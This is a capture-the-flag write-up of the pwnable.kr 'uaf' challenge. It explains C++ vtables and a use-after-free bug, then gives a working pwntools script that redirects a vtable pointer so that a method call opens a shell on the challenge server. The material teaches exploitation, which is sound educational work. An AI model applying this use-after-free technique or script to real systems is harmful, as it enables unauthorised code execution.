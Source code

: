Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

Let's load the binary to get the Man vtable address.
```python
from pwn import *
elf = ELF("uaf")
```
first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10
```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```
Now let's write our new vtable address into a file, so the content of the file will be stored in the heap chunk containing our objects' vtable. When we debug the binary, we clearly see that this chunk is located after another chunk of 0x30 containing the object's name and age variables, and its size is 0x20. That is why we specified an 0x18 address: so doing, it will realign the 0x18 size to 0x20, and it will be looking for a free 0x20 chunk, then it will find chunks containing vtable (for ``w`` then for ``m``).

```python
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
p = shell.process(["./uaf", "24", "/dev/stdin"])

p.sendline("3") ; p.recv()
p.sendline("2")
p.send(p64(new_vtable_1F)) ; p.recv()
p.sendline("2") ; p.recv()
```
It's the ``w`` heap chunk containing vtable that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``.
```python
p.sendline("2") ; p.recv()
p.sendline("1") ;p.recv()
```
We got the shell.
```python
p.interactive()
```
